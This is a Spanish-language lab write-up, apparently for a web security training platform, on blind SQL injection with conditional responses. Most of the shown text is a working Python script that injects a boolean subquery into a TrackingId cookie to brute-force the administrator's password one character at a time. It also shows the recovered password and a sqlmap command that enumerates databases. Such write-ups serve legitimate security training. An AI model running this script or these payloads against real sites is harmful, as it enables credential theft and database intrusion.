 ```
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 21):
            for character in characters:
                cookies = {
                    'TrackingId': "q5zrdy5bS1cbQoge' and (select substr(password,%d,1) from users where username='administrator')='%s'-- - " % (
                    position, character),
                    'session': "TLQCRenf9WOJ32JrP9iO3PG1TqebSben"
                }

                p1.status(cookies['TrackingId'])

                r = requests.get(url, cookies=cookies)

                if "Welcome back!" in r.text:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Obtenemos` la `contraseña` del usuario `administrador`

```
# python sqli_conditional_response.py
[p] Fuerza bruta: q5zrdy5bS1cbQoge' and (select substr(password,20,1) from users where username='administrator')='m'-- -
[*] Output: qfnmnxnxn87g12jt6ndm
```

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u https://0a7100f60324b8b38166b11800510080.web-security-academy.net/ --risk=3 --level=5 --random-agent --dbs --batch --cookie="TrackingId=lnS9gSlm0CA61ePa*; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX"
available databases [1]:
[*] public
```
